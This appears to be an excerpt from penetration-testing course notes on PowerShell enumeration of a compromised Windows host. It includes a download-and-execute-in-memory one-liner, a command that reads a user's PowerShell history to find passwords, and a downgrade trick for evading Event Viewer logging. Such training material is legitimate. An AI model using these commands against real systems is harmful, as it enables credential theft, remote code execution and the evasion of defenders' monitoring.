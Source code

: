 | `Get-Module`                                                                                                               | Lists available modules loaded for use.                                                                                                                                                                                                       |
| -------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Get-ExecutionPolicy -List`                                                                                                | Will print the [execution policy](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about\_execution\_policies?view=powershell-7.2) settings for each scope on a host.                                       |
| `Set-ExecutionPolicy Bypass -Scope Process`                                                                                | This will change the policy for our current process using the `-Scope` parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host. |
| `Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`          | With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.                       |
| `Get-ChildItem Env: \| ft Key,Value`                                                                                       | Return environment values such as key paths, users, computer information, etc.                                                                                                                                                                |
| `powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"` | This is a quick and easy way to download a file from the web using PowerShell and call it from memory.                                                                                                                                        |

### **Downgrade Powershell**

It's very good to know that several versions of PowerShell often exist on a host, if we are able to downgrade , our actions from the shell will not be logged in Event Viewer. This is a great way for us to remain under the defenders' radar while still utilizing resources built into the hosts to our advantage.

Let's try this out:

```powershell-session
PS C:\htb> Get-host

Name             : ConsoleHost
Version          : 5.1.19041.1320
[...]

PS C:\htb> powershell.exe -version 2
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.

PS C:\htb> Get-host
Name             : ConsoleHost
Version          : 2.0
[...]
```

### **Firewall Checks**

```powershell-session
PS C:\htb> netsh advfirewall show allprofiles
```

**Windows Defender Check (from CMD.exe)**

```cmd-session
C:\htb> sc query windefend
```

**Using qwinsta to check if you're alone on the host:**

```powershell-session
PS C:\htb> qwinsta

 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
 services                                    0  Disc
>console           forend                    1  Active
 rdp-tcp                                 65536  Listen
```
